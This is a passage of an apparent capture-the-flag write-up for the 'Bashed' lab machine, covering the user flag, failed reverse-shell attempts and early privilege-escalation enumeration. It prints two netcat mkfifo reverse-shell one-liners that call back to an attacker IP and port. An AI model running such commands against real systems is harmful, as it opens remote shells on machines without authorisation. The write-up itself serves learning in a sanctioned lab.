 ![](/assets/images/blogs/Pasted image 20210505090543.png)

I did some very quick enumeration, looking for users and quickly finding that `arrexel`'s home directory was world-readable. This gives us the user flag:

![](/assets/images/blogs/Pasted image 20210505091030.png)

## Trying to Get a Reverse Shell

Before I enumerated more for priv esc, I wanted a better shell. I tried a few commands, to no avail:

![](/assets/images/blogs/Pasted image 20210505093721.png)

I googled "netcat openbsd reverse shell" and tried the following commands:

```bash
www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 9001 >/tmp/f
```

But I got no result.

I also tried the `upload` custom command mentioned in the source code, to no avail.

![](/assets/images/blogs/Pasted image 20210505101232.png)

I decided to continue with enumeration and come back to this once I'd rooted the box and see if anyone had done it in a writeup. I would eventually [upgrade my shell](#upgrading-shell).

# Privesc

## Enumeration

I tried some basic enumeration from within the webshell, first checking `uname` and `id`:

```bash
www-data@bashed
:/var/www/html/dev# uname -a

Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

www-data@bashed
:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then tried looking for suid binaries:
